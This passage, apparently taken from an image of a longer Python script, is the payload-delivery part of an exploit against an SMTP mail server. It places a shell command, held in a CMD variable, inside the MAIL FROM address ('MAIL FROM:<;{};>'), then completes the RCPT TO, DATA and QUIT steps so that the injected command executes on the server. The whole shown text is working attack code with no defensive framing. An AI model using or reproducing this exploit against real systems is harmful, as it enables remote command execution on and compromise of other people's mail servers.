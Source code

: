 ```
    print('[!] Error connecting, expected 250')
    print('[!] Received: {}'.format(str(res)))
    print('[!] Exiting...')
    sys.exit(1)

print('[*] Connected, sending payload')
s.send(bytes('MAIL FROM:<;{};>\r\n'.format(CMD), 'utf-8'))
res = s.recv(1024)
if '250' not in str(res):
    print('[!] Error sending payload, expected 250')
    print('[!] Received: {}'.format(str(res)))
    print('[!] Exiting...')
    sys.exit(1)

print('[*] Payload sent')
s.send(b'RCPT TO:<root>\r\n')
s.recv(1024)
s.send(b'DATA\r\n')
s.recv(1024)
s.send(b'\r\nxxx\r\n.\r\n')
s.recv(1024)
s.send(b'QUIT\r\n')
s.recv(1024)
print('[*] Done')
```
